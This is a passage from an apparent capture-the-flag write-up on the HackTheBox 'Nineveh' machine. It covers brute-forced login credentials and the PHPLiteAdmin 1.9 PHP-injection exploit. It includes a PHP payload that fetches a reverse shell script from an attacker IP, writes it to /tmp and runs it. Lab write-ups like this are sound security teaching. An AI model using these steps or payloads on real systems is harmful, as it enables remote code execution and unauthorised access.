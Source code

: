 > Important! The method now uses *https-post-form*

Succesfully it returns:

```
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
```

We login with that password and...

{{< img "phpliteadminlogin.png" "PHPLiteAdmin Login" "border" >}}

## PHPLiteAdmin 1.9 Exploit

Now let's take again the [PHPLiteAdmin exploit](https://www.exploit-db.com/exploits/24044)!

> An Attacker can create a SQLite Database with a *PHP* extension and insert *PHP* Code as text fields.
> When done the Attacker can execute it simply by access the database file with the Webbrowser.

So to recreate that, we have to follow this steps:

```
1. We create a db named "hack.php".
The script will store the sqlite database in the same directory as phpliteadmin.php.

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>

3. Now we run hack.php
```

We create a db called *hack.php*.

Then we create a row called *hack* with one field:

{{< img "table.png" "Create Row" "border" >}}

This should be the result:

{{< img "database.png" "Result - Database" "border" >}}

Now we can create the reverse shell in 2 ways (that comes to my mind).

### Serve the Reverse Shell

We can do it by serving a file with a python SimpleHTTPServer and download it with:

```php
<?php system("wget YOURIP/reverse.txt -O /tmp/reverse.py; python /tmp/reverse.py"); ?>
```

Entering that script in the `default value` section like this:

{{< img "field.png" "Entering location of the Reverse Shell" "border" >}}

> IMPORTANT! The type value must be TEXT

### Use directly the reverse shell
